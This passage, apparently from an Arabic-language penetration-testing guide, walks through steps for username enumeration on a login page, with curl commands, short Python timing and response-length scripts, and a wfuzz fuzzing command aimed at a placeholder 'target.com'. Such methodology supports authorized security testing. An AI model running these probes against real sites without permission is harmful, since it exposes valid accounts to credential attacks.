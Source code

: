 4. **اختبار API Endpoints**:
   - **البيانات**: `{"username": "randomuser123", "password": "test"}`، `{"username": "admin", "password": "test"}`.
   - **الأدوات**: Postman، cURL، Burp Suite.
   - **الأوامر**:
     ```bash
     curl -X POST -H "Content-Type: application/json" -d '{"username":"randomuser123","password":"test"}' https://target.com/api/login
     curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"test"}' https://target.com/api/login
     ```

5. **اختبار التوقيت (Timing-Based)**:
   - **البيانات**: أسماء (`randomuser123`، `admin`).
   - **الأدوات**: cURL، Burp Suite، Python.
   - **الأوامر**:
     ```bash
     curl -w "Time: %{time_total}s\n" -X POST -d "username=randomuser123&password=test" https://target.com/login
     curl -w "Time: %{time_total}s\n" -X POST -d "username=admin&password=test" https://target.com/login
     ```
     ```python
     import requests
     import time
     url = "https://target.com/login"
     users = ["randomuser123", "admin"]
     for user in users:
         start = time.time()
         response = requests.post(url, data={"username": user, "password": "test"})
         end = time.time()
         print(f"User: {user}, Time: {end - start:.3f}s")
     ```

6. **اختبار ردود HTTP Status Codes**:
   - **البيانات**: أسماء (`randomuser123`، `admin`).
   - **الأدوات**: cURL، Burp Suite.
   - **الأوامر**:
     ```bash
     curl -i -X POST -d "username=randomuser123&password=test" https://target.com/login
     curl -i -X POST -d "username=admin&password=test" https://target.com/login
     ```

7. **أتمتة الاختبار**:
   - **البيانات**: ملف `usernames.txt` (`admin`، `user`، `randomuser123`).
   - **الأدوات**: Burp Suite Intruder، Python، wfuzz.
   - **الأوامر**:
     ```python
     import requests
     url = "https://target.com/login"
     usernames = ["randomuser123", "admin"]
     for username in usernames:
         response = requests.post(url, data={"username": username, "password": "test"})
         print(f"Username: {username}, Length: {len(response.text)}")
     ```
     ```bash
     wfuzz -c -z file,usernames.txt --hc 404 -d "username=FUZZ&password=test" https://target.com/login
     ```

---